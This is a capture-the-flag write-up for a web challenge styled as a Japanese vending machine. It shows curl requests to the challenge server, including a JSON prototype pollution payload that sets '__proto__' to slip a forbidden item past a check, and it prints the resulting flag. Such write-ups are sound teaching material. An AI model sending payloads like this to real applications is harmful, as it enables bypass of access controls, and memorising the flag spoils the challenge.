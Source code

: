 # 自動販売機

## Description
Level: medium<br/>
Author: PS

I like these Japanese vending machines! ๑(◕‿◕)๑
If I could just get a 🚩...

http://46.101.107.117:2210

## Solution

For this challenge we are given a web vending machine that allows us to order different items. The challenge description
already states that we need to order a flag from the machine.

When ordering a normal item

```
curl -X POST http://46.101.107.117:2210/order
   -H "Content-Type: application/json"
   -d '{"item": "🧋", "amount": 1}'  
```

the vending machine says `Please enjoy your....`. If we change the item to 🚩, however, the machine answers with `🚩is
not allowed`. So we have to find a way to order a 🚩without having the item equal to 🚩. One way to achieve this is so
called prototype pollution. We simply send a JSON object that has the `__proto__` property set so that JS is tricked
into thinking that the object inherits the `item` property:

```
curl -X POST http://46.101.107.117:2210/order
   -H "Content-Type: application/json"
   -d '{"amount": 1, "__proto__": {"item": "🚩"}}'
```

This returns the flag `he2022{p0llut10n_41nt_g00d}`.

